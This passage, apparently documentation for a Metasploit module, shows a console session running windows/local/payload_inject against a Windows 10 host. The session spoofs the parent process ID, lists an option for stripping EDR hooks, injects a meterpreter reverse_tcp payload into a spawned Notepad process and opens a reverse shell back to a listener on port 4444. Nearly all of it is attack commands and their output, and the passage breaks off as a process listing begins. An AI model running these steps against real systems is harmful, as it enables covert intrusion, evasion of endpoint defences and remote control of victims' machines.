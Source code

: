 ```
meterpreter > getpid
Current pid: 684
meterpreter > 

```

### Windows 10x64 Build 17134 No PID
```
msf5 exploit(windows/local/payload_inject) > set PPID 3632
PPID => 3632
msf5 exploit(windows/local/payload_inject) > show options

Module options (exploit/windows/local/payload_inject):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   AUTOUNHOOK   false            no        Auto remove EDRs hooks
   PID          0                no        Process Identifier to inject of process to inject payload. 0=New Process
   PPID         3632             no        Process Identifier for PPID spoofing when creating a new process. (0 = no PPID spoofing)
   SESSION      1                yes       The session to run this module on.
   WAIT_UNHOOK  5                yes       Seconds to wait for unhook to be executed


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.168  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf5 exploit(windows/local/payload_inject) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] Running module against DESKTOP-D1E425Q
[*] Spawned Notepad process 1528
[*] Spoofing PPID 3632
[*] Injecting payload into 1528
[*] Preparing 'windows/x64/meterpreter/reverse_tcp' for PID 1528
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 3 opened (192.168.135.168:4444 -> 192.168.132.125:49677) at 2020-01-22 13:16:31 -0600

meterpreter > getpid
Current pid: 1528
meterpreter > ps

Process List
============

 PID   PPID  Name                         Arch  Session  User                     Path
 ---   ----  ----                         ----  -------  ----                     ----
 0     0     [System Process]                                                     
```